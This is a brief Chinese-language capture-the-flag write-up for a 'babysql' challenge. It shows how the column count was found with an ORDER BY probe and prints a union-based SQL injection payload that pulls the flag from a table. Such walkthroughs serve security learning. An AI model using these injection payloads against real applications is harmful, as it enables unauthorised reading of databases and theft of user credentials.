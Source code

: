 ## babysql

- 简单的sql注入

  ![sqlpage](./sql_page.png)

  根据输入的id查询用户名和密码

  `id=-1' order by 1,2,3,4 #`时回显消失，所以一共是就3列数据

  然后删除线那里给了表名，直接`union select`就能拿到`flag`，payload:

  `id=-1' union select 1,flag,3 from flag #`

  ![sql](./sql.png)

